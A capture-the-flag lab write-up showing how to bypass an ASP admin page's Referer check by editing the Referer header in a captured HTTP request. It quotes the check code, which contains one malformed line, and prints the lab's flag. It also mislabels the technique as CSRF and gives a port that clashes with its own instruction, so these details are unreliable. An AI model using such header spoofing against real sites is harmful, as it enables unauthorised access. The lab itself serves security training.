

# Cross-Site Request Forgery (CSRF)

## 0x00 General Overview

Lab site from [zkaq.org][3]

Cross-Site Request Forgery ([CSRF][1]) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated.

So for this type of attack, we usually modify http requests with help of Burp Suite to conduct unauthenticated operations.

## 0x01 Go Hack It

### [Home Page][2]


### Admin Login 

As this is the follow up lab of [Lab 1 Access Cookie Injection](../sql_injection/lab1_access_cookie_injection), with the help of the lab hint, we can directly go login with the same usernam and password as previous lab.


### Admin Page

However, when log into the management site, it shows up the backend is not available for visit from external links.

The key comparison values are SERVER address and HTTP_REFERER address.



```php
<%
dim ComUrl, cUrl, AdminName

ComUrl = lcase(trim(Request.ServerVariables("HTTP_REFERER")))

if ComUrl = "" then
	response.write "<br><p align=center><font color='red'>对不起，为了系统安全，不允许直接输入地址访问本系统的后台管理页面。</font></p>"
	response.end
else
	cUrl = trim("http://" & Request.ServerVariables("SERVER_NAME"))
	if mid(ComUrl, len(cUrl) + 1, 1) = ":" then
		cUrl & cUrl & ":" & Request.ServerVariables("SERVER_PORT"))
	end if
	cUrl = lcase(cUrl & Request.ServerVariables("SCRIPT_NAME"))
	if lcase(left(ComUrl, instrrev(ComUrl, "/"))) <> lcase(left(cUrl, instrrev(cUrl, "/"))) then
		response.write "<br><p align=center><font color='red'>对不起，为了系统安全，不允许从外部链接地址访问本系统的后台管理页面。</font></p>"
		response.end
	end if
end if
%>
```

### Modify Packets

Here we get a http request

```
GET /admin123/sysadmin_view.asp HTTP/1.1
Host: 120.203.13.75:8001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://120.203.13.75:8001/admin123/default.asp
Connection: close
Upgrade-Insecure-Requests: 1
```

So we can see difference from HOST and REFERER. Change the REFERER to match HOST.

```
GET /admin123/sysadmin_view.asp HTTP/1.1
Host: 120.203.13.75:8001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://120.203.13.75:81/admin123/sysadmin_view.asp
Connection: close
Upgrade-Insecure-Requests: 1
```


**FLAG** = **zkz{fuzz-666}**

[1]: https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)
[2]: http://120.203.13.75:8001/
[3]: https://hack.zkaq.org/?a=battle&f=target&id=52efef30aa273354